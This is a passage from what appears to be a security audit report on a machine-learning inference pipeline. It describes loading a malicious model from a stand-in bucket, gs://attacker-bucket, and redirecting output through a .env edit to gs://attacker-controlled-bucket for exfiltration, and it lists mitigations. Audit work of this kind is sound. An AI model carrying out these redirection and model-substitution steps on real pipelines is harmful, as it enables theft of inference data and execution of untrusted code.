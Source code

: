 - **Preconditions:**
    - The attacker needs to influence the pipeline configuration by:
        - Direct Access: Access to the environment where the pipeline is configured (developer machine, CI/CD).
        - Social Engineering: Tricking a user into modifying `.env` or command-line arguments.

- **Source Code Analysis:**
    1. **`my_project/run.py`**: Parses `--model_state_dict_path` and `--tf_model_uri` arguments and uses them directly to instantiate `ModelConfig` without validation.
    2. **`my_project/config.py`**: `ModelConfig` defines `model_state_dict_path` and `tf_model_uri` as strings but lacks validation of their content or source.
    3. **`my_project/pipeline.py`**: `build_pipeline` uses `ModelConfig` to create `PytorchModelHandlerTensor` or `TFModelHandlerTensor`, passing the unvalidated paths directly to model handler constructors.

- **Security Test Case:**
    1. **Prepare Malicious Model:** Create `malicious_model.py` with code to print "Malicious model loaded and executed!" and a dummy `forward` function. Create `create_malicious_model_state_dict.py` to save its state dict as `malicious_model.pth`. Upload `malicious_model.pth` to a public GCS bucket (e.g., `gs://attacker-bucket/malicious_model.pth`).
    2. **Modify Project Configuration:** Edit `.env`, change `MODEL_STATE_DICT_PATH` to `gs://attacker-bucket/malicious_model.pth`.
    3. **Run Pipeline Locally:** `make run-direct`.
    4. **Observe Output:** Verify "Malicious model loaded and executed!" is printed in the output, confirming malicious model loading.

#### 3. Output Data Redirection via Environment Variable Injection

- **Description:**
  An attacker can modify the `.env` file, specifically `OUTPUT_DATA`, to redirect pipeline output to a GCS bucket they control. The application reads the output path directly from `.env` without validation.

  **Steps to trigger:**
  1. Clone the project.
  2. Navigate to the project directory.
  3. Edit `.env`.
  4. Change `OUTPUT_DATA` to `gs://attacker-controlled-bucket/exfiltrated_data.txt`.
  5. Run `make run-df-*`.
  6. The pipeline writes results to the attacker's bucket.
  7. The attacker accesses `exfiltrated_data.txt` to obtain inference results.

- **Impact:**
  Data Exfiltration. Sensitive machine learning inference results can be exfiltrated to an attacker-controlled storage location, leading to confidentiality breach.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
  None. `OUTPUT_DATA` from `.env` is used directly without validation.

- **Missing Mitigations:**
  - Input Validation and Sanitization: Validate `OUTPUT_DATA` to conform to expected patterns (e.g., whitelisted GCS bucket prefixes) and sanitize input.
  - Principle of Least Privilege: Restrict Dataflow job's service account write access to only the intended output bucket.
  - Configuration Management: Consider more secure configuration management than `.env` files.
  - Documentation: Document security risks of modifying `.env` and advise against untrusted configurations.

